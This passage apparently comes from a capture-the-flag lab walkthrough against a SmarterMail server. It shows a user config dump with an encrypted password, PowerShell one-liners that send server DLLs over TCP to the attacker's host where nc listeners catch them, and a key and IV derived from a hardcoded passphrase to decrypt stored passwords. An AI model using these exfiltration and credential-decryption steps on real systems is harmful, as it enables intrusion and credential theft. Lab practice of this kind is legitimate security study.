":0},{"name":"CATEGORY_ORANGE","color_index":1,"guid":"{8269e997-8b19-4fea-a949-99b0b6e37eba}","shortcut_key":0,"rename_on_first_use":false,"last_time_used_utc":"0001-01-01T00:00:00","last_session_used":0},{"name":"CATEGORY_YELLOW","color_index":3,"guid":"{969a1d42-76f1-4d12-a981-357b693d24e1}","shortcut_key":0,"rename_on_first_use":false,"last_time_used_utc":"0001-01-01T00:00:00","last_session_used":0},{"name":"CATEGORY_GREEN","color_index":4,"guid":"{21e83856-2f94-42e1-9e98-2f3bbfd0a27e}","shortcut_key":0,"rename_on_first_use":false,"last_time_used_utc":"0001-01-01T00:00:00","last_session_used":0},{"name":"CATEGORY_BLUE","color_index":7,"guid":"{30e36678-803c-49f5-ac33-3cba3e4d2e94}","shortcut_key":0,"rename_on_first_use":false,"last_time_used_utc":"0001-01-01T00:00:00","last_session_used":0},{"name":"CATEGORY_PURPLE","color_index":8,"guid":"{8cc2a862-71ef-4d7c-bfbe-552c600165ee}","shortcut_key":0,"rename_on_first_use":false,"last_time_used_utc":"0001-01-01T00:00:00","last_session_used":0}]},"compose_default_domain":"","compose_font":"arial","compose_font_size":"14px","connected_services":[],"created_utc":"2026-03-26T21:19:49.1327042Z","current_indexer":1,"delegates":[],"delete_mail_on_forward":false,"delete_option":0,"junk_option":0,"remove_from_junk_option":0,"delay_send_option":5,"description":"","display_name":"noah.b@danglingtree.htb","enable_auto_responder":false,"enable_draft_auto_save":false,"enable_imap":true,"enable_webdav":true,"enable_incoming_smtp":true,"enable_outgoing_smtp":true,"enable_pop":true,"enable_webmail":true,"enable_xmpp":true,"ews_file_cleanup_completed":"2026-03-26T21:19:49.1359699Z","forward_addresses":[],"full_name":"noah.b@danglingtree.htb","has_pending_notifications":false,"hide_complete_tasks_in_calendar":false,"imap_accounts":[],"index_version":"8.2.3.0","is_enabled":true,"is_indexed":false,"is_password_expired":false,"is_password_locked":false,"is_password_violation_grace_period_expired":false,"is_password_compliant":0,"is_out_of_office":false,"keep_recipients_on_forward":true,"last_assigned_uid_validity_value":5000,"last_caldav_access":"","last_carddav_access":"","last_folder_hierarchy_change_utc":"2026-03-26T21:19:49.1606512Z","locale_id":"en","mark_pop_downloads_as_read":true,"max_account_size":1048576000,"notify_on_calendar_reminders":true,"notify_on_chat_messages":true,"notify_on_new_emails":true,"password_encrypted":"66e7ppLOBF7UdzDv7zK6MJ1rmyUb1Cby","password_expiration_last_notification":-1,"internet_calendars":[],"password_last_change_utc":"2026-03-26T21:19:49.1311428Z","password_violation_last_notification":-1,"password_expired_manually":false,"plus_addressing_enabled":false,"plus_addressing_folder":"","pop_accounts":[],"preview_marks_read":false,"preview_mode":1,"repl_guid":"f9c3400a934d4492b6c79ee2eeb57790","reply_from_to_field":false,"reply_to_address":"","request_read_receipts":false,"request_delivery_receipts":false,"show_in_xmpp":true,"show_task_dues_in_calendar":true,"show_task_starts_in_calendar":true,"show_weekends_monthly":true,"show_weekends_weekly":true,"signature":"","signature_map_option":3,"spam_check_override_active":false,"spam_forward_option":0,"spam_level_low_action":{"action_type":4,"argument":"Junk E-Mail","boolOption1":false,"boolOption2":false,"executionOrder":-1},"spam_level_med_action":{"action_type":4,"argument":"Junk E-mail","boolOption1":false,"boolOption2":false,"executionOrder":-1},"spam_level_high_action":{"boolOption1":false,"boolOption2":false,"executionOrder":-1},"temp_password_expires_utc":"2026-03-26T14:19:49.1305829-07:00","throttle_bandwidth_action":1,"throttle_bandwidth_mb_per_hour":100,"throttle_bounces_action":1,"throttle_bounces_per_hour":500,"throttle_messages_action":1,"throttle_messages_per_hour":1000,"time_zone_index":4,"two_step_configured":false,"two_step_offer":true,"two_step_rfc_secret":"","two_step_type":0,"warn_if_mistakes":true,"hide_mail_avatars":false,"welcome_wizard_progress":0,"xmpp_status":"unavailable","exchange_accounts":[],"smtp_accounts":[],"preferred_indexer":1,"last_accepted_policy_version":0,"blocked_sender_action":1,"chat_provider":{"ProviderType":0},"blocked_senders":[],"blocked_domains":[],"resource_info_map":{},"seen_whats_new":{"0":9504,"1":9504,"2":9504,"7":9504,"6":9504,"4":9504,"5":9504,"8":9504,"3":9504,"9":9504},"chatgpt_settings_user":{"OverrideApiKey":false,"MaxMessagesPerDay":0,"CurrentMessagesSent":0,"LastMessageSent":"0001-01-01T00:00:00","Enabled":false,"AiModel":0},"show_in_gal":false,"fixer_cfg_version":7,"version":1,"fixer_eas_device_version":0,"blocked_domains_readonly":[]},"remote_trackers_allowed":[],"auto_responders":[{"id":2,"subject":"","body":"","external_reply":"","is_enabled":false,"is_html":true,"external_audience":2,"auto_respond_to_direct_mail_only":false,"autoresponder_config_version":1}],"auto_clean_rules_next_id":1,"auto_responder_next_id":2,"signature_next_id":1,"signature_mappings_next_id":1}
C:\SmarterMail\Domains\danglingtree.htb.bak\Users\noah.b>

```
``` bash 

❯ cat noah.b.txt | grep -o '"password_encrypted":"[^"]*"'
"password_encrypted":"66e7ppLOBF7UdzDv7zK6MJ1rmyUb1Cby"
╭─ ~/hacking/ctf/htb/medium/danglintree/recon                                                                      ✔ ─╮
╰─                                                                                                                   ─╯

```

``` powershell

C:\SmarterMail\Domains\danglingtree.htb.bak\Users\noah.b>copy "C:\Program Files (x86)\SmarterTools\SmarterMail\Service\SmarterMail.Standard.dll" C:\Windows\Temp\SM.dll
copy "C:\Program Files (x86)\SmarterTools\SmarterMail\Service\SmarterMail.Standard.dll" C:\Windows\Temp\SM.dll
        1 file(s) copied.

C:\SmarterMail\Domains\danglingtree.htb.bak\Users\noah.b>powershell -c "$f=[IO.File]::ReadAllBytes('C:\Windows\Temp\SM.dll');$t=New-Object Net.Sockets.TcpClient('10.10.15.166',8888);$t.GetStream().Write($f,0,$f.Length);$t.Close()"
powershell -c "$f=[IO.File]::ReadAllBytes('C:\Windows\Temp\SM.dll');$t=New-Object Net.Sockets.TcpClient('10.10.15.166',8888);$t.GetStream().Write($f,0,$f.Length);$t.Close()"

C:\SmarterMail\Domains\danglingtree.htb.bak\Users\noah.b>

```

``` bash

❯ nc -lvnp 8888 > SM.dll

listening on [any] 8888 ...
connect to [10.10.15.166] from (UNKNOWN) [10.129.82.45] 50766
^C
❯ ls | grep "SM.dll"
SM.dll
╭─ ~/hacking/ctf/htb/medium/danglintree/scripts                                                                    ✔ ─╮
╰─                                                                                                                   ─╯

```

``` powershell

C:\SmarterMail\Domains\danglingtree.htb.bak\Users\noah.b>powershell -c "$f=[IO.File]::ReadAllBytes('C:\Program Files (x86)\SmarterTools\SmarterMail\Service\MailService.dll');$t=New-Object Net.Sockets.TcpClient('10.10.15.166',9999);$t.GetStream().Write($f,0,$f.Length);$t.Close()"
powershell -c "$f=[IO.File]::ReadAllBytes('C:\Program Files (x86)\SmarterTools\SmarterMail\Service\MailService.dll');$t=New-Object Net.Sockets.TcpClient('10.10.15.166',9999);$t.GetStream().Write($f,0,$f.Length);$t.Close()"

C:\SmarterMail\Domains\danglingtree.htb.bak\Users\noah.b>

```

``` bash

❯ nc -lvnp 9999 > MailService2.dll
listening on [any] 9999 ...
connect to [10.10.15.166] from (UNKNOWN) [10.129.82.45] 50997

```




``` powershell

powershell -c "$salt = [byte[]](155, 26, 93, 86); $pdb = New-Object System.Security.Cryptography.PasswordDeriveBytes('a3oij89FF!apoife', $salt); $key = $pdb.GetBytes(8); $iv = $pdb.GetBytes(8); Write-Host 'Key:' ($key | ForEach-Object { $_.ToString('X2') }) -Separator ' '; Write-Host 'IV:' ($iv | ForEach-Object { $_.ToString('X2') }) -Separator ' '"


```

``` powershell

C:\SmarterMail\Domains\danglingtree.htb.bak\Users\noah.b>powershell -c "$salt = [byte[]](155, 26, 93, 86); $pdb = New-Object System.Security.Cryptography.PasswordDeriveBytes('a3oij89FF!apoife', $salt); $key = $pdb.GetBytes(8); $iv = $pdb.GetBytes(8); Write-Host 'Key:' ($key | ForEach-Object { $_.ToString('X2') }) -Separator ' '; Write-Host 'IV:' ($iv | ForEach-Object { $_.ToString('X2') }) -Separator ' '"
powershell -c "$salt = [byte[]](155, 26, 93, 86); $pdb = New-Object System.Security.Cryptography.PasswordDeriveBytes('a3oij89FF!apoife', $salt); $key = $pdb.GetBytes(8); $iv = $pdb.GetBytes(8); Write-Host 'Key:' ($key | ForEach-Object { $_.ToString('X2') }) -Separator ' '; Write-Host 'IV:' ($iv | ForEach-Object { $_.ToString('X2') }) -Separator ' '"
Key: B4 3F 84 D1 10 B4 E9 91
IV: 01 D8 AE E6 49 AD 92 27

C:\SmarterMail\Domains\danglingtree.htb.bak\Users\noah.b>

```
                      
